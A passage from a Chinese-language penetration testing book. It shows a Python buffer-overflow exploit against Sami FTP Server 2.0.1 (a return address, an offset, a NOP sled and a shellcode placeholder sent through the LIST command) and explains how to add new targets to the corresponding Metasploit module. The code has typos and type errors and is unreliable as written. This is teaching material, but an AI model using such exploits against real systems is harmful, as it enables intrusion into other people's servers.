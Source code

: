 ```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.172"
rport = 21
password = "badpassword@hacku.com"
username = "anonymous"
eip = struct.pack('<I',0x10028283)
offset = 228 - len(lhost)
nop  = "\x90" *16
shell =() #Shellcode was not inserted to save space
exploit = offset + eip + nop + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
print("[*] Sent exploit to %s on port %s") % (rhost,rport)
```

现在，这个特定的漏洞是为 Windows XP SP 3 开发的。您现在可以使用此代码尝试并针对不同的平台。独立的 Python 攻击意味着您具有扩展该攻击的必要能力。然后可以向 Metasploit 模块添加其他目标。这可以通过修改模块的以下部分来完成。

![Reversing Metasploit modules](img/image00419.jpeg)

以下是如何使用其他相关目标更新实际模块中的代码：

```
'Targets'        =>
        [
          [ 'Sami FTP Server 2.0.1 / Windows XP SP 3',   { 'Ret' => 0x10028283, 'Offset' => 228 } ],
          [ 'New Definition', { 'Ret' => 0x#######, 'Offset' => ### } ],
```

从这个例子中，我们看到了如何反转 Metasploit 模块以创建独立的漏洞利用，该漏洞利用可用于扩展目标选择并提高未来漏洞利用的可靠性。

### 注
